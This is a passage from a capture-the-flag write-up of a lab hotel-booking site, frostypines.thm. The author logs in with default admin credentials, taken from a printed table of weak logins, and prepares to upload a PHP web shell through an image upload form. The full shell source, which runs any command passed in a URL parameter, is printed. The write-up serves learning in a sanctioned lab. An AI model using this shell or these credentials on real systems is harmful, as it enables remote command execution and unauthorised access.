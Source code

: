 ![](gitbook/cybersecurity/images/Pasted%20image%2020241203130252.png)

After searching for a while, I couldn't find anything useful, so I thought, there was some sort of way to log in as the admin user without knowing the credentials beforehand, so, I read the room again and found this:

Below are some examples of weak/default credentials that attackers might try:

|                  |               |
| ---------------- | ------------- |
| **Username**     | **Password**  |
| admin            | admin         |
| administrator    | administrator |
| admin@domainname | admin         |
| guest            | guest         |

Maybe, this site is vulnerable to some of these, since we need to log in using the email and password, I figured that credentials for this site would be: `admin@frostypines.thm`:`admin`

![](gitbook/cybersecurity/images/Pasted%20image%2020241203130504.png)

![](gitbook/cybersecurity/images/Pasted%20image%2020241203130513.png)

And I was right! We were able to log in as admin user, now, let's search for a way to upload the web shell:

![](gitbook/cybersecurity/images/Pasted%20image%2020241203130555.png)

Going into the admin part, we found some stuff, most relevant one here would be the `add new room` site, since, once we investigate further, we can see the following:

![](gitbook/cybersecurity/images/Pasted%20image%2020241203130657.png)

There's a image file upload in there!

This is our way into the RCE, let's fill in some random data and send the shell:

The shell I'll be using is the one provided by the room itself, but, we can use whatever shell we'd like:

```html
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="text" name="command" autofocus id="command" size="50">
<input type="submit" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['command'])) 
    {
        system($_GET['command'] . ' 2>&1'); 
    }
?>
</pre>
</body>
</html>
```
